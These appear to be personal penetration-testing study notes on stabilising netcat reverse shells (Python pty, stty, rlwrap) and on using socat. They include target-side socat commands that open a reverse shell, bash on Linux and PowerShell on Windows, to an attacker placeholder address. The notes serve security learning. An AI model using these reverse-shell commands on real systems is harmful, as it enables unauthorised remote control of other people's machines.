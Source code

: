 ### Stabilisation
These shells are very unstable by default, they are non-interactive and often have strange formatting errors, this is due to netcat 'shells' really being processes running inside a terminal, rather than being genuine terminals.
#### Python
1. The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes, `reset` when we finish to return to normal). It then foregrounds the shell, thus completing the process.
#### rlwrap
rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use rlwrap, we invoke a slightly different listener:

`rlwrap nc -lvnp <port>`  

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.



## Socat
Similar to [[Netcat]] in some ways, [[Socat]] is a connector between two points, as it provides a link between two points, whether they be  a listening port and a keyboard, a listening port and a file or two listening ports
### Reverse
The syntax for [[Socat]] gets more complicated than that of Netcat, for a reverse shell listener, the syntax is the following 
```sh
socat TCP-L:<port> -
``` 
 
This is taking two points (a listening port and standard input) and connecting them together. The resulting shell is unstable. (this is the equivalent to `nc -lnvp <port>`).

Then we can connect to the listener in the target machine with the following for a linux target

```sh
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```
Or the following on a windows target
```sh
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

